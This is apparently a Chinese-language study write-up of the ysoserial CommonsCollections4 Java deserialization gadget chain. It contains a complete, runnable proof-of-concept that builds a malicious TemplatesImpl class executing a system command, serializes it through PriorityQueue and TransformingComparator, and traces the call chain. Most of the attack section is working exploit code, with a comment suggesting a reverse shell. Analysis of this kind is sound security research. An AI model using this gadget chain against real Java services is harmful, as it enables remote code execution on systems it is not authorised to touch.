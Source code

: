 ## 环境准备

JDK1.8(8u421)这里ysoserial没有提及JDK版本的影响，我以本地的JDK8版本为准、commons-collections4(4.0 以ysoserial给的版本为准)、javassist(3.12.1.GA)

cc4.0、ClassPool

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>
```

CC4概述

CC4 是 CC2+CC3 的一个变种，用 PriorityQueue 的 TransformingComparator 触发 ChainedTransformer，再利用 InstantiateTransformer 实例化 TemplatesImpl，主要核心还是CC2，只是最后的构造的payload触发从InvokeTranformer变成了InstantiateTransformer ，从而使得Templates构造方法能够被触发最终触发恶意代码。

## POC如下

还是对ysoserial的代码的修改版本，可以直接本地运行。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections4 {

    static String serialFileName = "commons-collections4.ser";

    public static void main(String[] args) throws Exception {
//        cc4byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static void cc4byYsoSerial() throws Exception {

        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        // =============================================================================
        ConstantTransformer constant = new ConstantTransformer(String.class);
        // mock method name until armed
        Class[] paramTypes = new Class[] { String.class };
        Object[] args = new Object[] { "foo" };
        InstantiateTransformer instantiate = new InstantiateTransformer(
                paramTypes, args);


        // grab defensively copied arrays
        Field iParamTypes = instantiate.getClass().getDeclaredField("iParamTypes");
        iParamTypes.setAccessible(true);
        paramTypes = (Class[])iParamTypes.get(instantiate);
        Field iArgs = instantiate.getClass().getDeclaredField("iArgs");
        iArgs.setAccessible(true);
        args = (Object[])iArgs.get(instantiate);

        ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

        // create queue with numbers
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
        queue.add(1);
        queue.add(1);
        // swap in values to arm
//        Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
        Field iConstant = constant.getClass().getDeclaredField("iConstant");
        iConstant.setAccessible(true);
        iConstant.set(constant, TrAXFilter.class);
        paramTypes[0] = Templates.class;
        args[0] = templates;

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(queue);
        oos.flush();
        oos.close();
    }
}
```

## 运行调试

来弹个窗口吧

![image-20241119142652458](./main.assets/cc4-1.png)

## 调用链分析

调用链就是CC2和CC3的结合版本，如下：


* PriorityQueue.readObject()
  * PriorityQueue.heapify()
    * PriorityQueue.siftDown()
      * PriorityQueue.siftDownUsingComparator()
        * TransformingComparator.compare()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()		TrAXFilter
            * InvokerTransformer.transform()		  Templates
              * TrAXFilter()				           Templates
                * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * ......
                * 触发静态代码调用